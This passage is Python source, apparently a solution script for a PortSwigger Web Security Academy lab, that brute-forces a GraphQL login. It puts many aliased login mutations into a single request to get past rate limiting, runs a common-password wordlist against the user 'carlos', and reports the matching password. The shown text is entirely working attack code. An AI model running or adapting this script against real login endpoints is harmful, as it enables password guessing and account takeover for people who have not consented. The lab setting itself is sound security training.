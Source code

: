 ```python
                mutationLoginQuery = 'mutation login {login(input:{username:\\"carlos\\",password:\\"'
                mutationLoginQuery += password
                mutationLoginQuery += '\\"}){token,success}'
                query += mutationLoginQuery
                counter += 1

        query += '}"}'
        return query

    def bruteforce(self, query):
        headers = {
            'Content-Type': 'application/json'
        }
        bruteforceResponse = self.session.post(self.url, data=query, headers=headers)
        print('[*] Sending the login aliases query...')

        if 'true' in bruteforceResponse.text:
            jsonResponse = json.loads(bruteforceResponse.text)
            for login in jsonResponse['data']:
                successValue = jsonResponse['data'][login]['success']
                if successValue == True:
                    passwordIndex = int(login[5:])
                    print('[+] Found the correct password!')
                    print(f'[+] Username: carlos, password: {passwordWordlist[passwordIndex]}')
            return

        if 'You have made too many incorrect login attempts.' in bruteforceResponse.text:
            print('[-] Rate limited!! Please wait 1 minute... (Sleeping 1 minute)')
            sleep(60)
            self.bruteforce(query)
            return

if __name__ == '__main__':
    url = 'https://0a78009404f1fb2f80087b93004d0037.web-security-academy.net/graphql/v1'
    passwordWordlist = ['123456', 'password', '12345678', 'qwerty', '123456789', '12345', '1234', '111111', '1234567', 'dragon', '123123', 'baseball', 'abc123', 'football', 'monkey', 'letmein', 'shadow', 'master', '666666', 'qwertyuiop', '123321', 'mustang', '1234567890', 'michael', '654321', 'superman', '1qaz2wsx', '7777777', '121212', '000000', 'qazwsx', '123qwe', 'killer', 'trustno1', 'jordan', 'jennifer', 'zxcvbnm', 'asdfgh', 'hunter', 'buster', 'soccer', 'harley', 'batman', 'andrew', 'tigger', 'sunshine', 'iloveyou', '2000', 'charlie', 'robert', 'thomas', 'hockey', 'ranger', 'daniel', 'starwars', 'klaster', '112233', 'george', 'computer', 'michelle', 'jessica', 'pepper', '1111', 'zxcvbn', '555555', '11111111', '131313', 'freedom', '777777', 'pass', 'maggie', '159753', 'aaaaaa', 'ginger', 'princess', 'joshua', 'cheese', 'amanda', 'summer', 'love', 'ashley', 'nicole', 'chelsea', 'biteme', 'matthew', 'access', 'yankees', '987654321', 'dallas', 'austin', 'thunder', 'taylor', 'matrix', 'mobilemail', 'mom', 'monitor', 'monitoring', 'montana', 'moon', 'moscow']
    
    bruteforcer = Bruteforcer(url, passwordWordlist)
    query = bruteforcer.prepareLoginMutationQuery()
    bruteforcer.bruteforce(query)
```
